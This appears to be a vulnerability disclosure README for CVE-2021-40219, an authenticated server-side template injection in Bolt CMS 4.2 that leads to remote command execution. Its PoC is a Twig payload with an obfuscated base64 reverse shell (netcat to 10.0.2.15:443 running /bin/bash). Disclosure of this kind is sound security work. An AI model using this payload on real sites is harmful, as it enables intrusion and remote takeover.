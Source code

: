 
<h1>CVE-2021-40219</h1>
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-40219

```Bolt CMS```


SSTI to Remote Code Execution


Reported by S1lv3r

```Description :```

The vulnerability exists on core/src/Controller/Frontend/TemplateController.php, 
unsave rendering allow an authenticated attacker to abuse it using server-side template injection
vulnerability that lead to remote code execute with bypass array error restriction with "join” filter

TemplateController.php line 25:
return $this->render($templates, []);

1- The authenticated user edit theme by going to file management -> view/edit themes

2- Inject our PoC payload that will run system command

3- Go to Edit Page then create new page and choose our malicious template

4- Go to RCE-PoC page (using step 3) to trigger execution : http://127.0.0.1/page/RCE-PoC


```Version :```
BoltCMS Latest Version 4.2 ( GitHub's latest version 8/23/2021 )

```Attack Type:```
Remote

```Impact :```
Remote Command Execution


```PoC : ```

``` python 

{{['echo${IFS}-n${IFS}"bmMgMTAuMC4yLjE1IDQ0MyAtZSAvYmluL2Jhc2g="${IFS}|${IFS}base64${IFS}-
d${IFS}|bash']|filter('system')|join(', ') }}

```
```References:```
https://github.com/bolt/core/blob/3b21a73ebf519b76756d3ad2841312d10ef11461/src/Controller/Frontend/TemplateController.php#L25 

